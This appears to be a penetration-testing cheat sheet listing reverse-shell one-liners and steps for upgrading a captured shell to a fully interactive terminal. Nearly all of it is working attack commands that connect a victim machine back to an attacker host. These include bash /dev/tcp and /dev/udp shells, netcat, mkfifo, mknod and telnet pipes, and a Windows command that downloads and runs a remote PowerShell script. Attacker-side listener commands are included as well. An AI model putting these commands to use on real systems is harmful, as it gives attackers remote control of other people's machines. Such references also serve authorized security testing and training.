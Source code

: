 # Linux fully interactive tty
1. use python 2 or python3 `pty` module's `spawn` function
`python -c 'import pty; pty.spawn("/bin/bash")'`
`python3 -c 'import pty; pty.spawn("/bin/bash")'`
2. use `CTRL + Z` to background the shell
3. use `stty size` to view the terminal dimensions *to be used in step #7*
4. use `stty raw -echo` then `fg`
5. type `reset` even if you don't see visual feedback
6. when the reverse shell is back, set your `SHELL` and `TERM` environement variables
`export SHELL=/bin/bash`
`export TERM=xterm-256color`
7. set terminal size using `stty rows <number> columns <number>`

## one liner that check which python version is there and goes for it:
`python2=$(which python);python3=$(which python3);if [[ -x $python2 ]];then echo "[+] python2 installed";python -c 'import pty; pty.spawn("/bin/bash")';elif [[ -x $python3 ]];then echo "[+] python3 installed";python3 -c 'import pty; pty.spawn("/bin/bash")';else echo "[-] no python installed";fi`

## another for exporting both `SHELL` and `XTERM` values:
`export SHELL=/bin/bash && export TERM=xterm-256color`

## and the last one for preparing the command for setting rows and columns
`size=$(stty size); rows=$(echo $size | cut -d' ' -f1); cols=$(echo $size | cut -d' ' -f2); echo "[*] setting stty rows to $rows and columns to $cols"; stty rows $rows columns $cols`

# Windows better tty using `rlwrap`
1. install rlwrap using `apt install rlwrap`
2. using rlwrap before your standard listener `rlwrap nc -lvnp <LPORT>`

# Windows fully interactive (Windows 10 / Windows Server 2019 version 1809)
## on attacker machine:
`stty raw -echo; (stty size; cat) | nc -lvnp <LPORT>`
## on victim machine:
`IEX(IWR https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell <LHOST> <LPORT>`

# Bash
1. `bash -i >& /dev/tcp/<LHOST>/<LPORT> 0>&1`
2. `exec 5<>/dev/tcp/<LHOST>/<LPORT>; cat <&5 | while read line; do $line 2>&5 >&5; done`

## Bash/Netcat:
`nc -nv <LHOST> <LPORT> -e /bin/bash`

## mkfifo:
`rm /tmp/pipe; mkfifo /tmp/pipe; /bin/sh -i < /tmp/pipe 2>&1 | nc <LHOST> <LPORT> > /tmp/pipe; rm /tmp/pipe`

## mknod:
`rm /tmp/pipe; mknod /tmp/pipe p 2>/dev/null && nc <LHOST> <LPORT> 0</tmp/pipe | /bin/bash 1>/tmp/pipe; rm /tmp/pipe`

## Bash UDP
1. victim: `sh -i >& /dev/udp/<LHOST>/<LPORT> 0>&1`
2. attacker: `nc -u -lvp <LPORT>`

# Telnet
`rm /tmp/pipe; mknod /tmp/pipe p && telnet <LHOST> <LPORT> 0</tmp/pipe | /bin/bash 1>/tmp/pipe; rm /tmp/pipe`